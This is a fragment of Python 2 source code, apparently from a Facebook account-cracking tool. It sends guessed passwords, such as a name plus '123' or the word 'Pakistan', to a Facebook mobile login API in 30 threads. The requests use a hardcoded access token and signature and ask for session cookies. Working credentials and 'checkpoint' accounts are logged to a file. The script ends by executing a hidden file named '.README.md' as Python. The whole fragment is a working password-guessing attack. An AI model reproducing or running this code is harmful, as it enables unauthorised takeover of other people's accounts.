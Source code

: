 					q = json.loads(data.text)
					if '407' in q['error_msg']:
						print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass2
						oks.append(user+pass2)
					else:
						if '405' in q["error_msg"]:
							print '[Checkpoint] ' + user + ' | ' + pass2
							cps = open("save/checkpoint.txt", "a")
							cps.write(user+"|"+pass2+"\n")
							cps.close()
							cpb.append(user+pass2)
						else:
							pass3 = kn + '123'
							data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
							q = json.loads(data.text)
							if '407' in q['error_msg']:
								print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass3
								oks.append(user+pass3)
							else:
								if '405' in q["error_msg"]:
									print '[Checkpoint] ' + user + ' | ' + pass3
									cps = open("save/checkpoint.txt", "a")
									cps.write(user+"|"+pass3+"\n")
									cps.close()
									cpb.append(user+pass3)
								else:
									pass4 = 'Pakistan'
									data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
									q = json.loads(data.text)
									if '407' in q['error_msg']:
										print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass4
										oks.append(user+pass4)
									else:
										if '405' in q["error_msg"]:
											print '[Checkpoint] ' + user + ' | ' + pass4
											cps = open("save/checkpoint.txt", "a")
											cps.write(user+"|"+pass4+"\n")
											cps.close()
											cpb.append(user+pass4)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print 50*"-"
	print '[✓] Process Has Been Completed ....'
	print "[✓] Total OK/CP : "+str(len(oks))+"/"+str(len(cpb))
	print("[✓] CP File Has Been Saved : checkpoint.txt")
	raw_input("\n[Press Enter To Go Back]")
	os.system('python2 .README.md')
		